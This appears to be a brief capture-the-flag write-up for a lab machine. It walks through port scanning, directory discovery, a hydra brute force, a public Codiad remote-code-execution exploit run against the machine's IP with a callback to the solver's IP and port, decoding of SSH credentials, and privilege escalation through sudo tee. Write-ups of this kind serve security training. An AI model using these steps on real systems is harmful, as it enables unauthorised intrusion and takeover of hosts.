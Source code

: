 Enumeration:
A lot of ports, but useful 22,80, others seem to be decoys
![image](https://github.com/user-attachments/assets/d56e2229-a13f-4eef-9b4d-530830418ad4)

Nikto didnt give useful info on server, source code too.
Running gobuster -> found /inferno directory. 
Bruteforcing with hydra -> admin:dante1 creds.

Foothold:
We see a codiad login page -> same creds work, we are logged in.
CVE for codiad page -> https://github.com/WangYihang/Codiad-Remote-Code-Execute-Exploit?tab=readme-ov-file
Copy the code and run the python script: python3 rce.py http://admin:dante1@[VM IP]/inferno/ admin dante1 [YOUR IP] [YOUR PORT] linux
Session dies after a minute or so, I had to look for hints in walkthroughs, but stabilization is useless here. 
Found dat file in Downloads, copy contents and decipher for a password for ssh :)
![image](https://github.com/user-attachments/assets/dc8138cd-02ca-4357-ab71-aa6a473326e4)

Using dcode site: ![image](https://github.com/user-attachments/assets/c49a3fed-4a4b-4d2f-a3b6-6491c26d75f5)
Creds for ssh - > dante:V1rg1l10h3lpm3
Found local.txt once connected.

Privesc:

This session dies fast too, use /bin/sh stabilises
running sudo -l we see we can run tee -> use file write to switch to inferno user
![image](https://github.com/user-attachments/assets/569f8bb7-0cb2-4c83-b3cc-d9a2381a2295)

Flag is in root/proof.txt





